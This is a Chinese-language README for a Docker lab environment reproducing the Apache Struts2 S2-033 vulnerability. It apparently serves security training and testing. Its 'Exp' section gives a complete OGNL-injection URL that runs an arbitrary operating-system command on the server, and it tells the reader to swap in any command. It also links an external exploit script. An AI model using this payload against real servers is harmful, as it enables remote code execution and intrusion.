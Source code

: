 ## Struts2 S2-033 漏洞环境

### 说明

 官方 demo 中提供的 war 包由于添加了 jsp 拦截器，配置会有问题，修正了一下。

### 漏洞信息

 * [S2-033 官方公告](http://struts.apache.org/docs/s2-033.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-033
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-033
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

假定启动后的地址为：http://127.0.0.1:8080/

执行 id 命令：

```
http://127.0.0.1:8080/orders/4/%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23xx%3d123,%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23wr.print(%23rs),%23wr.close(),%23xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=2908&command=id
```

> 修改参数 command 的值为你要执行的命令

### 参考链接

![S2-033_CmdToolExP - coffeehb/Some-PoC-oR-ExP](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/Struts2/S2-033_CmdToolExP.py)
